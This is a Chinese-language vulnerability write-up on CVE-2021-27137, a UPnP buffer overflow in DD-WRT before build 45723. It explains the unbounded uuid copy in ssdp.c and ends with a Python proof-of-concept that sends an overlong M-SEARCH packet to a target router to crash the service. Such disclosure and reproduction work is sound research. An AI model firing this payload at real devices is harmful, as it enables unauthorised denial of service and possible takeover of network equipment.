 # DD-WRT UPNP缓冲区溢出漏洞 CVE-2021-27137

## 漏洞描述

默认情况下，DD-WRT中的UPNP处于禁用状态，并且仅在内部网络接口上侦听。

UPNP本质上是未经身份验证的UDP形式的协议–由于无法对协议强制执行身份验证，因此它既易于使用又具有不安全。

如果DD-WRT启用了UPNP服务，则坐在存在DD-WRT设备的LAN上的远程攻击者可以通过发送一个过长的`uuid`值来触发缓冲区溢出。

根据部署DD-WRT的平台的不同，可能存在缓解措施，也可能没有缓解措施，例如ASLR等，这使得可利用性取决于安装DD-WRT的平台。

## 漏洞影响

```
DD-WRT < 45723 版本
```

## 漏洞复现

通过查看源代码，`ssdp.c`可以很容易地发现有问题的代码：



![](images/202202162248612.png)

用户提供的数据的未绑定副本被复制到缓冲区中，该缓冲区的大小限制为128个字节。

由于默认情况下未启用UPNP服务，因此重新创建漏洞的第一步是启用将自动启动该服务的服务

![](images/202202162248025.png)

启动PoC脚本将触发upnp服务崩溃，这可以在启动以下python脚本几秒钟后看到

![](images/202202162248047.png)

## 漏洞POC

```python
import socket
target_ip = "192.168.15.124" # IP Address of Target
off = "D"*164
ret_addr = "AAAA" 
payload = off + ret_addr
packet = \
    'M-SEARCH * HTTP/1.1\r\n' \
    'HOST:239.255.255.250:1900\r\n' \
    'ST:uuid:'+payload+'\r\n' \
    'MX:2\r\n' \
    'MAN:"ssdp:discover"\r\n' \
    '\r\n'
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM, socket.IPPROTO_UDP)
s.sendto(packet.encode(), (target_ip, 1900) )
```